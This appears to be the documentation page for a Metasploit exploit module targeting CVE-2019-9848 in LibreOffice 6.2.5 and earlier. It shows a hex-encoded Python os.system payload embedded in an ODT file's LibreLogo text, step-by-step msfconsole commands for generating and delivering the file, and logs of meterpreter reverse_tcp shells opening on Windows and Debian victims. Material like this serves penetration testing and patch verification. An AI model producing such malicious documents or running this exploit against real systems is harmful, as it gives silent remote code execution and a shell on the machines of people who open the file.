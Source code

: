 ## Description

  This module exploits CVE-2019-9848 and is based on the module exploiting CVE-2018-16858, written by Shelby Pace.

  LibreOffice has a feature where documents can specify that pre-installed scripts can be executed on various document events such as mouse-over, etc. LibreOffice is typically also bundled with LibreLogo, a programmable turtle vector graphics script, which can be manipulated into executing arbitrary python commands. 

  By using the document event feature to trigger LibreLogo to execute python contained within a document a malicious document could be constructed which would execute arbitrary python commands silently without warning. 

  This module generates an ODT file with a dom loaded event that, when triggered, will execute any arbitrary python code and the metasploit payload. LibreLogo executes the python code stored on the text part of the document.

  The generated document file contains a one-liner python code that does an os.system : 

  ```python
  getattr(__import__(“os”),“system”)(“<%= @cmd %>”)
  ```

  but encoded :

  ```xml
  <text:p text:style-name="P8">&#x67;&#x65;&#x74;&#x61;&#x74;&#x74;&#x72;(&#x5f;&#x5f;&#x69;&#x6d;&#x70;&#x6f;&#x72;&#x74;&#x5f;&#x5f;(&#x201C;\x6f\&#x78;73&#x201D;),&#x201C;\&#x78;73\&#x78;79\&#x78;73\&#x78;74\x65\&#x78;6d&#x201D;)(“<%= @cmd %>”)</text:p>
  ```

  To avoid any python error, the h1 title written in the document is a python comment `#`.

## Vulnerable Application

  LibreOffice version 6.2.5 and prior.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/multi/fileformat/libreoffice_logo_exec```
  4. Do: ```set LHOST <ip>```
  5. Do: ```set LPORT <port>```
  6. Do: ```run```
  7. Move the generated file to the target
  8. Start a handler
  9. Open the file with a vulnerable version of LibreOffice
 10. You should get a shell.

## Scenarios

### Tested on LibreOffice 6.2.4 running Windows 7

  ```
  msf5 > use exploit/multi/fileformat/libreoffice_logo_exec 
  msf5 exploit(multi/fileformat/libreoffice_logo_exec) > set lhost 192.168.33.1
  lhost => 192.168.33.1
  msf5 exploit(multi/fileformat/libreoffice_logo_exec) > run

  [+] librefile.odt stored at /home/foobar/.msf4/local/librefile.odt
  msf5 exploit(multi/fileformat/libreoffice_logo_exec) > use multi/handler
  msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf5 exploit(multi/handler) > set lhost 192.168.33.1
  lhost => 192.168.33.1
  msf5 exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.33.1:4444 
  [*] Sending stage (179779 bytes) to 192.168.33.102
  [*] Meterpreter session 3 opened (192.168.33.1:4444 -> 192.168.33.102:46327) at 2019-07-29 03:33:03 -0400

  meterpreter > 
  ```

### Tested on LibreOffice 6.2.4 running Debian 9.9

  ```
  msf5 > use exploit/multi/fileformat/libreoffice_logo_exec 
  msf5 exploit(multi/fileformat/libreoffice_logo_exec) > set lhost 192.168.33.1
  lhost => 192.168.33.1
  msf5 exploit(multi/fileformat/libreoffice_logo_exec) > run

  [+] librefile.odt stored at /home/foobar/.msf4/local/librefile.odt
  msf5 exploit(multi/fileformat/libreoffice_logo_exec) > use multi/handler
  msf5 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
  payload => linux/x86/meterpreter/reverse_tcp
  msf5 exploit(multi/handler) > set lhost 192.168.33.1
  lhost => 192.168.33.1
  msf5 exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.33.1:4444 
  [*] Sending stage (985320 bytes) to 192.168.33.117
  [*] Meterpreter session 5 opened (192.168.33.1:4444 -> 192.168.33.117:43602) at 2019-07-29 04:44:04 -0400

  meterpreter > getuid
  Server username: uid=1001, gid=1001, euid=1001, egid=1001
  meterpreter > 
  ```
